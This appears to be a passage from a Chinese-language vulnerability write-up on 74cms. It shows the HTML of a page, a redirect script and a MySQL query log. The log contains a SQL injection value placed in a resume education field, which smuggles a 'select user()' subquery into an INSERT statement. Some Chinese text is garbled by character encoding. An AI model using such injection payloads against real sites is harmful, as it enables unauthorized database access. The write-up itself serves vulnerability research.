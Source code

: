                         &lt;li&gt;&lt;img src="/74cms/templates/default/images/21.gif" align="absmiddle" style="margin-right:5px;"/&gt;&lt;a href="?act=make5&amp;pid=1"  style="color: #006699"&gt;Ìøµ½ÏÂÒ»²½&lt;/a&gt;&lt;/li&gt;
                        &lt;li&gt;&lt;img src="/74cms/templates/default/images/21.gif" align="absmiddle" style="margin-right:5px;"/&gt;&lt;a href="?act=make4&amp;pid=1"  style="color: #006699"&gt;²é¿´ÎÒµÄ½ÌÓý¾­Àú&lt;/a&gt;&lt;/li&gt;
                      &lt;/ul&gt;
        &lt;/div&gt;&lt;/td&gt;
      &lt;/tr&gt;
    &lt;/table&gt;&lt;/td&gt;
  &lt;/tr&gt;
&lt;/table&gt;
&lt;script language="JavaScript"&gt;
&lt;!--
var seconds = 15;
var defaultUrl = "?act=make4&amp;pid=1";

onload = function()
{
  if (defaultUrl == 'javascript:history.go(-1)' &amp;&amp; window.history.length == 0)
  {
    document.getElementById('redirectionMsg').innerHTML = '';
    return;
  }

  window.setInterval(redirection, 1000);
}
function redirection()
{
  if (seconds &lt;= 0)
  {
    window.clearInterval();
    return;
  }

  seconds --;
  document.getElementById('spanSeconds').innerHTML = seconds;

  if (seconds == 0)
  {
    window.clearInterval();
    location.href = defaultUrl;
  }
}
//--&gt;
&lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;

问题出来了，在任何地方都找不到key来显示执行成功后的结果。
4.update(error)
于是乎我看了下完整的语句执行过程是这样的。
140117  1:25:13	  469 Connect	root@localhost on 
		  469 Query	SET NAMES gbk
		  469 Query	SET sql_mode = ''
		  469 Query	SET character_set_connection=gbk, character_set_results=gbk, character_set_client=binary
		  469 Init DB	74cms
		  469 Query	select * from qs_members where uid = 1 LIMIT 1
		  469 Query	SELECT * FROM qs_resume WHERE uid='1'
		  469 Query	SELECT * FROM qs_resume_education WHERE  pid='1' AND uid='1'
		  469 Query	INSERT INTO qs_resume_education (`uid`, `pid`, `start`, `endtime`, `school`, `speciality`, `education`, `education_cn`) VALUES ('1', '1', '2006年2月', '2000年8月', '88888', '99999\',`key`=(select user()),`refreshtime`=\'9', '66', '高中')
		  469 Query	select * from qs_resume where id='1'  AND uid='1' LIMIT 1
		  469 Query	SELECT * FROM qs_resume_education WHERE  pid='1' AND uid='1'
		  469 Query	select * from qs_resume_work where pid='1' AND uid=1